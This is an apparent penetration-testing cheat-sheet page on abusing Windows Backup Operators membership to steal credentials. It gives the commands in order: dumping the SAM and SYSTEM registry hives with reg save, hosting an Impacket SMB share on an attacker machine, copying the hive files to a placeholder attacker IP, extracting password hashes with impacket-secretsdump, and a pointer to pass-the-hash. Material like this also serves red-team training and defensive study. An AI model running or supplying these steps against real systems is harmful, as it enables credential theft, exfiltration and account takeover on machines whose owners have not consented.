 # Backup Operators Group

\#The **SAM** (Security Account Manager) database in Windows stores user account credentials, and the **SYSTEM** file holds the boot key necessary to decrypt these credentials. \
The **Backup Operators** group can bypass file permissions to back up sensitive files like these.

### **1. Backup SYSTEM and SAM Files**

The **`hklm\sam`** and **`hklm\system`** registry hives correspond to the SAM and SYSTEM files.

```batch
reg save hklm\sam C:\temp\sam.backup
reg save hklm\system C:\temp\system.backup
```

### 2. Transfer the Files Using SMB

On your **attacker machine**, set up a simple SMB server with Impacket.&#x20;

```bash
impacket-smbserver <share_name> <dest_folder_path> -smb2support
```

From the **target machine**, copy the backed-up files to the share on the attacker machine.

```batch
copy C:\temp\sam.backup \\<attacker_ip>\<share_name>\sam.backup
copy C:\temp\system.backup \\<attacker_ip>\<share_name>\system.backup
```

### 3. Extracting the hashes

Now that the **SAM** and **SYSTEM** files are transferred to the attacker machine, it's possible extract password hashes from them using **impacket-secretsdump**.

```bash
impacket-secretsdump -sam sam.backup -system system.backup LOCAL
```

### 4. Pass The Hash

[#pass-the-hash](../../misc/ntlm.md#pass-the-hash "mention")
